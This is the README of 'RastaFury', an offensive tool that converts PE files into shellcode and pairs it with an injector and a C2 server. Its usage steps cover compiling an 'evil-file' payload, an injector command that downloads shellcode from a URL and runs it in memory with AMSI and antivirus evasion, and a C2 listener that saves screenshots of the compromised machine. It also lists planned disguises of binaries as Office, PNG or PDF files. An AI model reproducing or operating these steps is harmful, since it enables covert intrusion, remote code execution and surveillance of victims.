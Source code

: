 # RastaFury

a tool for create ShellCodes from PE, based on go-donut([Binject](https://github.com/Binject/go-donut)); updated, improved and with new functionalities.
This tool works on Windows, Linux and MacOs, only need to change you compilation technique.

##Treefile
```powershell
C:.
│   .gitignore
│   go.mod
│   go.sum
│   LICENSE
│   main.go
│   README.md
│
│
├───c2server
│       helpers.go
│       router.go
│       server.go
│
├───cmd
│       c2server.go
│       injector.go
│       root.go
│       ShellCodeGenerator.go
│
└───donut
        donut.go
        donut_crypt.go
        donut_crypto_test.go
        loader_exe_x64.go
        loader_exe_x86.go
        types.go
        utils.go
```

##USAGE
**Note:** *this tool is intended to work in conjunction with the [ShellCodeInjector](https://github.com/RachidMoysePolania/ShellCodeInjector) library, in which you can find the default payload to be used with the *C2SERVER* command, which will be loaded into memory and executed by syscalls using kernel32.dll from windows (applying *AMSI* and *AV* evasion techniques).*
1. need to compile the payload (using default payload would be in this way): `go build -ldflags -H=windowsgui main.go` **Note:** *before compile the evil-file you need update the url and port to match with your c2server url and port.*
2. to generate a shellcode from a PE file use the following command: `shellcodegenerator -i <evil-file-path> -o <output-file-name>(by default is defaultc2client.bin)` this command is intended to use the default payload provided by ShellCodeInjector library at [here](https://github.com/RachidMoysePolania/ShellCodeInjector/blob/main/payload/main.go)
3. use the injector command, only need to provide the url (the complete url of where the shellcode to download is located): `injector -u "http://127.0.0.1:8000/defaultc2client.bin` and at the same time a new window must be opened, in order to listen to the c2 server.
4. listening to the c2server: `c2server -p <port-to-listen>(by default 8080)`

**Note:** *where the compiled shellcodegenerator binary is stored, screenshots of the compromised machine will be saved every interaction.*

##Example video
[!PocVideo](/media/PoC.mkv)

**Note:** *The next features are camuflage for our compiled binaries (word, excel, png, pdf, etc), graphic version and process injection* 
